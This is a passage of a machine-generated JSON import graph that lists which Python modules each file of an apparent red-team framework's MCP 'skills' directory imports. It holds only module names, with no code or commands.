"relation": "imports", "source": "skills/lazyown_mcp.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.dashboard_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazy_opencode_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "uvicorn"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "mcp.server.sse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "starlette.applications"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "starlette.routing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_permissions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_session"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_context"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_claudemd"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_session"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_session"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "warnings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.command_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.command_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.recommendation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.llm_client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.llm_client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.intelligence_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.intelligence_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_campaign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "cve_matcher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "memory_store"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "memory_store"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "integrations.misp_export"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "llm_evaluator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "c2_profile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "threat_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_replay"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "lazyown_campaign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_helpers.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "mcp.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "mcp.server.stdio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_mcp_opencode.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_objective.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "pyarrow"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "pyarrow.parquet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "atomic_enricher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "joblib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "sklearn.ensemble"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "sklearn.model_selection"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "sklearn.preprocessing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "joblib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_parquet_db.py", "target": "sklearn.preprocessing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "fnmatch"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_permissions.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_policy.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/lazyown_session.py", "target": "lazyown_context"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_generated_tools.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_generated_tools.py", "target": "mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_lazy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_lazy.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/mcp_tool_generator.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "watchdog.events"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 